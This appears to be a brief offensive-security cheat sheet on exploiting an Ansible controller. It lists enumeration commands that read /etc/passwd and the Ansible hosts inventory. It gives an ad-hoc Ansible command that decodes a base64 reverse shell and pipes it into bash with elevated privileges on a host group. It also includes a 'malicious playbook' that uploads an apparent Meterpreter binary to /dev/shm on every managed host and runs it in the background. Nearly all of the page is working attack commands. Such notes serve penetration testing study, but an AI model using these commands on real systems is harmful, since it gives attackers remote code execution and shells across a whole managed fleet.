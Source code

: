 # Ansible




## Enumeration

When on ansible controller:

```
$ cat /etc/passwd | grep ans
$ cat /etc/ansible/hosts
$ ansible --version
```




## Execute Code

Using ad-hoc commands:

```
$ ansible <GROUP_NAME> -m shell -a "echo <BASE64_REVERSE_SHELL>|base64 -d|/bin/bash" --become
```

Malicious playbook example:

{% code title="evil.yml" %}
```yaml
# ansible-playbook evil.yml
- name: Evil playbook
  hosts: all
  gather_facts: true
  tasks:
    - name: upload
      copy:
        src: /tmp/met
        dest: /dev/shm/met
        mode: a+x
    - name: execute
      shell: "nohup /dev/shm/met &"
      async: 10
      poll: 0
```
{% endcode %}

